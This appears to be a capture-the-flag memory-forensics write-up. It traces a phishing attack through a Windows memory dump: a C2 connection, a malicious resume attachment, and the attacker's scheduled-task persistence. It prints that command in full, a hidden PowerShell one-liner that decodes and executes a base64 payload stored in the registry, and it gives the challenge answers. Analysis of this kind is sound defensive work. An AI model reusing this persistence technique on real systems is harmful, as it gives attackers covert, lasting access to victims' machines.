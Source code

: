 We can see with `netscan` that "updater.exe" initiated a connection with 128.199.95.189 on port 8080.

---

**What is the full file path of the malicious email attachment based on the memory dump?**

ubuntu@tryhackme:~/Desktop/Artefacts$ `cat cmdline.txt | grep Resume`

```
1440	OUTLOOK.EXE	"C:\Program Files\Microsoft Office\Root\Office16\OUTLOOK.EXE" /eml "C:\Users\maxine.beck\Desktop\Resume - Application for Junior IT Analyst Role.eml"
1124	WINWORD.EXE	"C:\Program Files\Microsoft Office\Root\Office16\WINWORD.EXE" /n "C:\Users\maxine.beck\AppData\Local\Microsoft\Windows\INetCache\Content.Outlook\WQHGZCFI\Resume_WesleyTaylor (002).doc
```

Along with the `.eml` file, searching for resume reveals the location of the `.doc` attachment.

`C:\Users\maxine.beck\AppData\Local\Microsoft\Windows\INetCache\Content.Outlook\WQHGZCFI\Resume_WesleyTaylor (002).doc`

---

**The attacker implanted a scheduled task right after establishing the c2 callback. What is the full command used by the attacker to maintain persistent access?**

Knowing the keyword 'schtasks' is used to create these on Windows, we can search the memory dump's strings. By looking carefully at all the strings returned, we can figure out the full command.

ubuntu@tryhackme:~/Desktop/Artefacts$ `strings WKSTN-2961.raw | grep schtasks`

```
schtasks /Create /F /SC DAILY /ST 09:00 /TN Updater /TR 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NonI -W hidden -c \"IEX ([Text.Encoding]::UNICODE.GetString([Convert]::FromBase64String((gp HKCU:\Software\Microsoft\Windows\CurrentVersion debug).debug)))\"'
```
